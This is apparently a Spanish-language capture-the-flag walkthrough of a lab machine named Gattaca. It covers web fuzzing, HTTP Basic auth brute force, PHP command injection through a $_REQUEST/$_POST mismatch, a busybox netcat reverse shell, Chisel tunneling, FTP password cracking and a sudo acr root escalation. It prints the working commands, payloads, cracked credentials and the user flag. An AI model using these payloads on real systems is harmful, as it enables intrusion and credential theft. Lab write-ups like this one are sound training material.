

### Fase de Reconocimiento y Descubrimiento (Enumeración)

#### Escaneo de Puertos (Nmap)

Realizamos un escaneo de puertos inicial con nmap para identificar los servicios y versiones activas en la máquina objetivo:

![[Pasted image 20260823161146.png]]

**Servicios identificados:**

* **Puerto 80/TCP (HTTP):** Servidor web Apache httpd 2.4.56 (Debian). Ver teoría en [HTTP & HTTPS.md](<../../../Pentesting Notes/1_Enumeration/HTTP & HTTPS.md>).
* **Resolución de Nombres:** Para interactuar adecuadamente con el servicio web y los posibles Virtual Hosts, añadimos la entrada correspondiente al archivo `/etc/hosts`:

```text
192.168.1.X gattaca.nyx
```

***

### Enumeración Web y de Servicios

#### Inspección del Servidor Web (WhatWeb)

Analizamos las tecnologías y cabeceras del servidor web mediante `whatweb`:

![[Pasted image 20260823161224.png]]

Accedemos a través del navegador a `http://gattaca.nyx`, encontrándonos con la página corporativa principal basada en la película *Gattaca*:

![[Pasted image 20260823161242.png]]

Al inspeccionar el código fuente HTML no se identifican comentarios o recursos expuestos relevantes, por lo que procedemos a enumerar rutas y directorios ocultos.

#### Fuzzing de Directorios Web (ffuf y dirsearch)

Realizamos fuzzing de rutas y recursos web mediante `ffuf`:

```bash
ffuf -u "http://gattaca.nyx/FUZZ" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-big.txt -e .php,.txt,.html -t 40
```

![[Pasted image 20260823161802.png]]

De forma complementaria, ejecutamos `dirsearch` para obtener una visión estructurada del árbol de directorios:

```bash
dirsearch -u http://gattaca.nyx/
```

Ver guía y opciones avanzadas en [Fuzzing Cheat Sheet](<../../../Pentesting Notes/Web/Fuzzing/Cheat Sheet.md>).

![[Pasted image 20260823161952.png]]

**Directorios y recursos identificados:**
1. `/cards` (y `/cards.php`)
2. `/images`
3. `/fonts`

#### Autenticación Básica HTTP y Fuerza Bruta (Hydra)

Al acceder al recurso `/cards.php`, el servidor web solicita autenticación mediante una ventana emergente de **HTTP Basic Authentication**:

![[Pasted image 20260824145522.png]]

En este esquema de autenticación estándar, las credenciales viajan codificadas en Base64 en la cabecera HTTP `Authorization: Basic <base64>`. Al no requerir formularios complejos ni tokens CSRF, procedemos a realizar un ataque de fuerza bruta con `hydra` utilizando el diccionario de credenciales por defecto `ftp-betterdefaultpasslist.txt`:

```bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt gattaca.nyx http-get /cards.php -s 80
```

![[Pasted image 20260824145912.png]]

* **Credenciales válidas obtenidas:**

```text
admin:admin12345
```

***

### Fase de Explotación / Intrusión

#### Análisis de la Interfaz y Detección de WAF

Tras autenticarnos en `/cards.php`, accedemos a un panel donde se listan diversos archivos correspondientes a registros de empleados:

![[Pasted image 20260824145956.png]]

Al intentar solicitar archivos críticos del sistema operativo (como `/etc/passwd`) para probar un posible Path Traversal / LFI, el servidor deniega la solicitud inmediatamente mediante un filtro/WAF:

![[Pasted image 20260824150833.png]]

Interceptamos la petición con Burp Suite para analizar el flujo exacto de datos:

![[Pasted image 20260824182050.png]]

La interfaz envía una petición HTTP POST con el parámetro `filename`. Inicialmente se evaluaron técnicas de evasión de Path Traversal (codificaciones URL simples `%2e%2e%2f`, dobles `%252e%252e%252f`, secuencias `....//`), pero todas resultaron bloqueadas. 

#### Análisis de Código Fuente y Vulnerabilidad de Discrepancia de Métodos ($_REQUEST vs $_POST)

Al profundizar en la arquitectura del backend y evaluar el archivo `cards.php`, se observa la siguiente implementación en PHP:

![[Pasted image 20260824183350.png]]

```php
<?php
        $folder = "/var/www/gattaca/cards";
        $files = scandir($folder);
        $files = array_diff($files, array('.', '..'));
        foreach ($files as $files) {
        echo "<li>$files</li>";
        }
        if (isset($_REQUEST['filename'])) {
        if (!preg_match('/[^A-Za-z0-9. _-]/', $_POST['filename'])) {
	      $output = shell_exec("cat " . $_REQUEST['filename']);
	      echo "$output";
        } else {
                echo "Malicious Request Denied!";
        }
        }
?>
```

**Análisis de la Vulnerabilidad (Command Injection vía Method Tampering):**
* La superglobal `$_REQUEST` en PHP combina por defecto los datos recibidos mediante `$_GET`, `$_POST` y `$_COOKIE`.
* El script valida la ausencia de caracteres especiales mediante la expresión regular `preg_match('/[^A-Za-z0-9. _-]/', $_POST['filename'])`, pero únicamente sobre la superglobal `$_POST`.
* Sin embargo, la función `shell_exec("cat " . $_REQUEST['filename'])` concatena directamente el valor proveniente de `$_REQUEST['filename']`.
* **Vector de Evasión:** Si enviamos la petición utilizando el método **GET** (`GET /cards.php?filename=;id;`), la variable `$_POST['filename']` resulta nula (superando la comprobación `preg_match` sin lanzar error), mientras que `$_REQUEST['filename']` toma el valor enviado por GET, ejecutando el comando arbitrario inyectado.

Probamos la ejecución de comandos enviando el payload vía GET:

![[Pasted image 20260824182805.png]]

* **Impacto:** Confirmamos **Command Injection** y ejecución remota de comandos en el servidor.

#### Explotación de Reverse Shell Inicial (Usuario www-data)

Nos ponemos en escucha en nuestra máquina atacante mediante Netcat:

```bash
nc -lvnp 4444
```

Enviamos el comando de conexión reversa con `busybox nc` codificado en URL:

```text
busybox+nc+10.10.10.20+4444+-e+bash
```

Recibimos la conexión reversa en el listener:

![[Pasted image 20260824195518.png]]

Estabilizamos la terminal para disponer de una TTY interactiva y funcional:

```bash
script /dev/null -c bash
# (Presionar CTRL+Z para suspender la shell)
stty raw -echo; fg
reset xterm
export TERM=xterm && export SHELL=bash
stty rows 29 columns 111
```

***

### Movimiento Lateral / Escalada a Usuario (i.cassini)

#### Enumeración Interna y Descubrimiento de ftppolicy.txt

Al enumerar el sistema de archivos desde la cuenta `www-data`, localizamos un archivo de políticas en `/var/www/ftppolicy.txt`:

![[Pasted image 20260824200147.png]]

**Contenido de la política:**

```text
** IMPORTANT **
Remember, when changing your password it must contain these requirements:

1. Must be 8 characters or longer
2. Must contain numbers
3. Must contain special characters

Don't waste time with v.freeman and rockyou.txt
```

**Análisis de la información:**
* Se descarta al usuario `v.freeman` y los diccionarios genéricos como `rockyou.txt`.
* El objetivo se centra en la usuaria del sistema **`i.cassini`** (*Irene Cassini*).
* La contraseña cumple un patrón estricto: mínimo 8 caracteres, números y caracteres especiales (incluyendo combinaciones leet speak).

#### Detección del Servicio FTP Local y Limitación de Firewall

Al consultar los puertos en escucha internamente con `ss -tulnp`:

```bash
ss -tulnp
```

```text
Netid     State      Recv-Q     Send-Q          Local Address:Port           Peer Address:Port     Process     
udp       UNCONN     0          0                     0.0.0.0:68                  0.0.0.0:*                    
tcp       LISTEN     0          32                    0.0.0.0:21                  0.0.0.0:*                    
tcp       LISTEN     0          511                         *:80                        *:*      
```

Identificamos que el servicio **FTP (puerto 21)** se encuentra activo internamente, pero el firewall bloquea el tráfico entrante desde la red externa. Al no contar con privilegios para modificar `iptables`, recurrimos al establecimiento de un túnel de reenvío de puertos.

#### Reenvío de Puertos Remoto con Chisel (Reverse Port Forwarding)

Utilizamos la herramienta **Chisel** para crear un túnel TCP cifrado sobre HTTP y redirigir el puerto 21 interno de la máquina víctima hacia un puerto local en nuestra máquina atacante:

1. Descargamos y transferimos el binario de Chisel a la máquina víctima:

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
gzip -d chisel_1.9.1_linux_amd64.gz
chmod +x chisel_1.9.1_linux_amd64
```

![[Pasted image 20260824204046.png]]

2. En nuestra máquina atacante, iniciamos Chisel en modo servidor (`reverse`) a la escucha en el puerto 6000:

```bash
./chisel_1.9.1_linux_amd64 server -p 6000 --reverse
```

![[Pasted image 20260824204110.png]]

3. En la máquina víctima, ejecutamos el cliente de Chisel redirigiendo el puerto FTP (`127.0.0.1:21`) hacia el puerto local `2121` del atacante:

```bash
./chisel_1.9.1_linux_amd64 client 192.168.11.111:6000 R:2121:127.0.0.1:21
```

![[Pasted image 20260824204239.png]]

**Esquema de Red del Túnel Reverso:**



#### Generación de Diccionario Personalizado con CUPP y Fuerza Bruta FTP

Con el puerto accesible localmente en `127.0.0.1:2121`, generamos un diccionario dirigido mediante **CUPP** (*Common User Passwords Profiler*), incorporando los datos personales del contexto de la película (*Irene Cassini*, pareja *Vincent Freeman*), sustituciones alfanuméricas (*leet mode*), caracteres especiales y números al final:

```bash
git clone https://github.com/Mebus/cupp.git
cd cupp
python3 cupp.py -i
```

Parámetros introducidos en el asistente interactivo:

```text
First Name: Irene
Surname: Cassini
Nickname: (vacío)
Birthdate (DDMMYYYY): (vacío)

Partner's name: Vincent
Partner's nickname: Freeman
Partner's birthdate (DDMMYYYY): (vacío)

Child's name: (vacío)
Child's nickname: (vacío)
Child's birthdate (DDMMYYYY): (vacío)

Pet's name: (vacío)
Company name: (vacío)

Add some key words about the victim?: N
Add special chars at the end of words?: Y
Add random numbers at the end of words?: Y
Leet mode (e.g. 1337)?: Y
```

Lanzamos el ataque de fuerza bruta con `hydra` contra el puerto local reenviado 2121:

```bash
hydra -l i.cassini -P irene_wordlist.txt ftp://127.0.0.1 -s 2121 -t 4 -f -vV
```

![[Pasted image 20260824212743.png]]

* **Credenciales descubiertas:**

```text
i.cassini:1r3n3!$%
```

#### Conexión FTP y Obtención de Flag de Usuario (user.txt)

Nos autenticamos en el servicio FTP con las credenciales de `i.cassini`:

![[Pasted image 20260824224532.png]]

Leemos la flag de usuario (`user.txt`):

```bash
cat user.txt
# d3eca2e0a0755197605edc2eaa6be710
```

Iniciamos sesión / cambiamos al usuario `i.cassini` en la terminal:

![[Pasted image 20260824231015.png]]

***

### Escalada de Privilegios a Root

#### Enumeración de Permisos Sudoers (sudo -l)

Comprobamos los privilegios `sudo` asignados al usuario `i.cassini`:

```bash
sudo -l
```

![[Pasted image 20260824232431.png]]

* **Hallazgo:** El usuario dispone de permisos para ejecutar el binario `/usr/bin/acr` como superusuario sin proporcionar contraseña (`NOPASSWD`):

```text
(root) NOPASSWD: /usr/bin/acr
```

#### Explotación de Binario ACR (GTFOBins)

La herramienta `acr` (*Auto-Configure and Makefile generator*) incluye la opción `-r` para procesar y ejecutar scripts de configuración de forma automática. De acuerdo con GTFOBins, podemos crear un archivo de configuración arbitrario que invoque un comando de shell (`/bin/sh`):

1. Creamos el archivo de configuración malicioso en `/tmp`:

```bash
echo -e 'x:\n\t/bin/sh 1>&0 2>&0' > /tmp/exploit.acr
cd /tmp
chmod +x exploit.acr
```

2. Ejecutamos `acr` mediante `sudo` apuntando al script:

```bash
sudo acr -r ./exploit.acr
```

![[Pasted image 20260824233342.png]]

* **Control Total:** Se genera una shell interactiva con máximos privilegios (`uid=0(root)`), obteniendo acceso administrativo absoluto a la máquina y procediendo a la lectura de la flag final `root.txt`.

***

### Relaciones y Conceptos

* **Teoría:** [HTTP & HTTPS.md](<../../../Pentesting Notes/1_Enumeration/HTTP & HTTPS.md>), [FTP.md](<../../../Pentesting Notes/1_Enumeration/FTP.md>), [Fuzzing Cheat Sheet](<../../../Pentesting Notes/Web/Fuzzing/Cheat Sheet.md>), [Password Cracking.md](<../../../Pentesting Notes/2_Password-Attacks/Password Cracking.md>), [Linux Privilege Escalation - Permissions.md](<../../../Pentesting Notes/3_Post-Explotation/Linux Privilage Escalation/Permissions.md>)
* **Laboratorios Relacionados:** [Bola](../Medio/Bola.md) (Comparte entorno Vulnyx, túneles de port forwarding y explotación de servicios locales), [JarJar](../Medio/JarJar.md) (Comparte resolución por VHosts, bypass de controles web y acceso al sistema), [Express](../Medio/Express.md) (Comparte resolución por VHosts y enumeración web), [Internal](../../DockerLabs/Facil/Internal.md) (Comparte port forwarding y explotación de servicios internos)
